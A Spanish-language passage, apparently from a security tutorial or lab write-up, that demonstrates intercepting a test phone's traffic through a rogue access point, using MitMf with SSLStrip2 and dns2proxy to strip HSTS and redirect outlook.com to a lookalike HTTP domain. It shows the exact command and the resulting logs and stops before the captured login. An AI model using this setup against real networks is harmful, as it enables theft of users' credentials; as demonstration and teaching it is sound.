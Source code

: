Pusimos a correr nuestro rogue AP, desactivamos el dns que nos provee dnsmasq, y luego pusimos a correr MitMf con las opciones de hsts (SSLStrip2) y dns (dns2proxy) de la siguiente manera:

python mitmf.py -i wlan0 --hsts --dns

Luego, conectamos nuestro dispositivo de prueba al AP e intentamos acceder a outlook.com y estos fue lo que logueo mitmf:

2017-11-25 17:29:20 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.com
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'wwww.outlook.com' to 'www.outlook.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] www.outlook.com
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:21 10.0.0.168 [DNS] Resolving 'weboutlook.live.com' to 'outlook.live.com' for HSTS bypass
2017-11-25 17:29:21 10.0.0.168 [type:Chrome Mobile-62 os:Android] outlook.live.com
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
2017-11-25 17:29:22 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header

Como se puede ver, mitmf capturo los requests a outlook.live.com y lo termino redirigiendo a weboutlook.live.com el cual mantiene una conexión del tipo HTTP pero se muestra como si fuera la página original para el usuario del dispositivo, y todos los requests que hagamos desde este dominio dns2proxy los forwardea al dominio original para que la navegación y el comportamiento del sitio parezca real. 

Paso siguiente, nos intentamos loguear al sitio poniendo nuestro email y un password erróneo para mostrar únicamente como capturamos el tráfico. A continuación se pueden ver los logs:

